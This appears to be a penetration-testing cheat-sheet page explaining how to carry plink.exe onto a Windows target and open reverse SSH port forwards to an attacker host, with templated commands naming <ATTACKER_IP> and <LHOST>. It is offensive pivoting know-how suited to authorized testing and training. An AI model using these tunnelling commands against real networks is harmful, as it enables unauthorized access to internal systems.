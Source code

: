# plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own built-in SSH client, plink is less useful for modern servers; however, it is still a very useful tool for older computers.

### [Download](../../misc/tools.md#plink.exe)

## Remote Forwarding

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection.

```bash
# Enable the SSH service on your computer:
service ssh start
systemctl start ssh
```

### Method #1

```bash
# Create a non-shell user with a random password:
sudo useradd sshpivot --no-create-home --shell /bin/false
sudo passwd sshpivot # Set a random password
```

```bash
# The first time plink connects to a host, it will try to cache the host key in the registry. Therefore, it is best to pass it the letter "y" at once:
cmd /c echo y | .\plink.exe -ssh -l sshpivot -pw <PASSWORD> -R <LPORT>:<TARGET_IP>:<TARGET_PORT> <LHOST>
```

### Method #2

```bash
# Install:
sudo apt install putty-tools # Ubuntu/Debian
sudo pacman -S putty # Arch Linux
# Generate keys:
ssh-keygen
mv id_rsa.pub authorized_keys
puttygen id_rsa -o id_rsa.ppk
```

The resulting `.ppk` file can be transferred to the Windows target and then, we perform remote forwarding:

```bash
cmd /c echo y | .\plink.exe -R <LPORT>:<TARGET_IP>:<TARGET_PORT> <USER>@<ATTACKER_IP> -i id_rsa.ppk -N
```
